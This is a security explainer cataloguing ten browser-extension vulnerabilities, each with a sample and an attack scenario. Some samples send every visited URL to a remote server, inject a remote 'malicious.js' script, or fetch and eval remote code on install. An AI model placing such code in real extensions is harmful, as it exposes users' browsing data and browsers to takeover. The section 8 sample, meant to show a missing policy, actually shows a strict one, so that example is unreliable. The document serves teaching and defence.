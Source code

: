 # Browser Extension Security Vulnerabilities

This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.

## 1. Permissions Overreach
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
```
Exploitation Scenario:
An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.
## 2. Data Leakage
Vulnerable Code Example:
```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.
Exploitation Scenario:
An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.
## 3. Cross-Site Scripting (XSS)
Vulnerable Code Example:
```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
```
Exploitation Scenario:
User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.
## 4. Insecure Communication
Vulnerable Code Example:
```javascript
fetch('http://example.com/api/data')
```
Exploitation Scenario:
Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.
## 5. Code Injection
Vulnerable Code Example:
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
```
Exploitation Scenario:
If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.
## 6. Malicious Updates
Vulnerable Code Example:
```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Potentially unsafe
});
```
Exploitation Scenario:
If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.
## 7. Third-Party Dependencies
Vulnerable Code Example:
```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
```
Exploitation Scenario:
An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.
## 8. Lack of Content Security Policy (CSP)
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.
## 9. Insecure Storage
Vulnerable Code Example:
```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
Exploitation Scenario:
If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.
## 10. Insufficient Privacy Controls
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
```
Exploitation Scenario:
Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
